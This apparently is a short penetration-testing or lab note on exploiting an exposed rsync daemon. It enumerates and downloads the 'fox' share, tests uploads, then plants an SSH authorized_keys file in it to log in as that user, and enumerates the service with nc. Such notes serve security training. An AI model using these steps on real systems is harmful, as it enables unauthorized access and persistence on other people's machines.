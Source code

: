 #### SSH key upload
```bash - kali
rsync rsync://$TARGET
```
`fox          fox home`
```bash - kali
rsync rsync://$TARGET/fox
```
Download share with it's contents:
```bash - kali
rsync -av rsync://$TARGET/fox ./rsyncfiles
```
Test to see if we can upload files:
```bash - kali
echo "test" > test
```
```bash - kali
rsync -av test.txt rsync://$TARGET/fox
```
```bash - kali
rsync -av --list-only rsync://$TARGET/fox
```
We can see our test file uploaded successfully.
Next, we'll create ssh keys and upload so we can ssh into target:
```bash - kali
ssh-keygen
```
```bash - kali
cp /home/kali/.ssh/id_rsa* .
```
```bash - kali
mkdir .ssh && mv id_rsa* .ssh
```
Change the public key to authorized_keys
```bash - kali
mv id_rsa.pub authorized_keys
```
Transfer the key files to the target like so:
```bash - kali
rsync -a --relative ./.ssh  rsync://$TARGET/fox/
```
```bash - kali
ssh fox@$TARGET
```
---
#### nc enumeration
```
nc -nvv $TARGET 873
```
```
@RSYNCD: 31.0
```
```
#list
```
Now lets try to enumerate "fox"
```
nc -nvv $TARGET 873
```
```
@RSYNCD: 31.0
```
```
fox
```
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password